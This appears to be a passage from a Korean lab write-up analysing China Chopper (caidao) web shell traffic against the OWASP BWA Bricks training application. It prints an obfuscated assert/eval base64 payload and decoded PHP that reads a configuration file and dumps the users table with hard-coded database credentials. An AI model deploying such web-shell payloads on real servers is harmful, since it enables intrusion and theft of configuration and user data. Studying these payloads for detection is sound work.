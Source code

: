       ↓ Request 패킷 중에서 Base64 문자열 디코딩

      @ini_set("display_errors", "0");
      @set_time_limit(0);
      if (PHP_VERSION < '5.3.0') {
          @set_magic_quotes_runtime(0);
      };
      echo("X@Y");
      $F = "/owaspbwa/owaspbricks-svn/LocalSettings.php";
      $fp = @fopen($F, 'r');
      if (@fgetc($fp)) {
          @fclose($fp);
          @readfile($F);
      } else {
          echo('ERROR:// Can Not Read');
      };
      echo("X@Y");
      die();

2. 개인정보 확인 (Bricks 유저 정보)
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/1ffadb14-b427-496b-b84a-f3e3cd40704c)

< caidao 툴에서 Bricks 유저 정보 확인 >

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/adc8c5e3-b8a5-4c56-97aa-1df0ce68866b)

< Bricks 유저 정보 확인 시 패킷 덤프 >


      koromoon=array_map("ass"."ert",array("ev"."Al(\"\\\$xx%3D\\\"Ba"."SE6"."4_dEc".
      "OdE\\\";@ev"."al(\\\$xx('QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZ
      V9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1l
      KDApO307ZWNobygiWEBZIik7JGhzdD0nbG9jYWxob3N0JzskdXNyPSdicmlja3MnOyRwd2Q9J2JyaWN
      rcyc7JGRibj0nYnJpY2tzJzskc3FsPSdTRUxFQ1QgKiBGUk9NIGB1c2Vyc2AgT1JERVIgQlkgMSBERV
      NDIExJTUlUIDAsMjAnOyRUPW15c3FsaV9jb25uZWN0KCRoc3QsJHVzciwkcHdkLCRkYm4pO2lmKG15c
      3FsaV9jb25uZWN0X2Vycm5vKCRUKSl7ZWNobyAiRVJST1I6Ly8gIi5teXNxbGlfY29ubmVjdF9lcnJv
      cigpO31lbHNleyRxPW15c3FsaV9xdWVyeSgkVCwkc3FsKTtpZigkcSl7JGsgPSAwO3doaWxlICgkZml
      uZm8gPSBAbXlzcWxpX2ZldGNoX2ZpZWxkKCRxKSl7ZWNobyAkZmluZm8tPm5hbWUuIlx0fFx0Ijskay
      srO31pZigkaz4wKXtlY2hvICJcclxuIjt3aGlsZSgkcnM9QG15c3FsaV9mZXRjaF9yb3coJHEpKXtmb
      3IoJGM9MDskYzwkazskYysrKXtlY2hvICRyc1skY10uIlx0fFx0Ijt9ZWNobyAiXHJcbiI7fX1lbHNl
      e2VjaG8gICJSZXN1bHRcdHxcdFxyXG5FeGVjdXRlIFN1Y2Nlc3NmdWxseSFcdHxcdFxyXG4iO319ZWx
      zZXtlY2hvICAiUmVzdWx0XHR8XHRcclxuRVJST1I6ICIubXlzcWxpX2Vycm9yKCRUKS4iXHR8XHRccl
      xuIjt9bXlzcWxpX2Nsb3NlKCRUKTt9O2VjaG8oIlhAWSIpO2RpZSgpOw%3D%3D'));\");"));

      ↓ Request 패킷 중에서 Base64 문자열 디코딩

      @ini_set("display_errors", "0");
      @set_time_limit(0);
      if (PHP_VERSION < '5.3.0') {
          @set_magic_quotes_runtime(0);
      };
      echo("X@Y");
      $hst = 'localhost';
      $usr = 'bricks';
      $pwd = 'bricks';
      $dbn = 'bricks';
      $sql = 'SELECT * FROM `users` ORDER BY 1 DESC LIMIT 0,20';
      $T = mysqli_connect($hst, $usr, $pwd, $dbn);
      if (mysqli_connect_errno($T)) {
            echo "ERROR:// ".mysqli_connect_error();
      } else {
          $q = mysqli_query($T, $sql);
          if ($q) {
              $k = 0;
              while ($finfo = @mysqli_fetch_field($q)) {
                  echo $finfo - > name.